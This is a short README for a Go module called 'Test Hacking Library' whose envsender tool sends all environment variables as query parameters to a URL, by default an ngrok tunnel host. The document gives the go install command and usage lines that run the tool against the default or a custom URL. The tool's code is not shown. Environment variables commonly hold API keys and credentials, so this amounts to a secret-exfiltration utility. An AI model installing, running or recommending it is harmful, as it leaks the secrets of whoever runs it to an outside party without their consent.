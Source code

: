 # Test Hacking Library

A Go module that provides functionality to send environment variables as query parameters to a specified URL.

## Installation

To install the command-line tool, run:

```bash
go install github.com/rammarj/test-hacking-lib/cmd/envsender@latest
```

## Usage

The tool can be used in two ways:

1. As a command-line tool:
```bash
# Use default URL (https://9ccf312101ab.ngrok-free.app)
envsender

# Or specify a custom URL
envsender -url "https://your-custom-url.com"
```
